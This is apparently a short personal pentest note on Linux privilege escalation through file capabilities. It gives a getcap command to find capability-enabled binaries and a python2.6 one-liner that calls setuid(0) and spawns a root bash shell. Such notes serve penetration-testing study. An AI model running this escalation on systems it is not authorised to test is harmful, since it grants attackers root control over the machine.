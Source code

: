 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Detection
```bash - target
getcap -r / 2>/dev/null
```

![[Pasted image 20221115135636.png]]

```bash - target
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
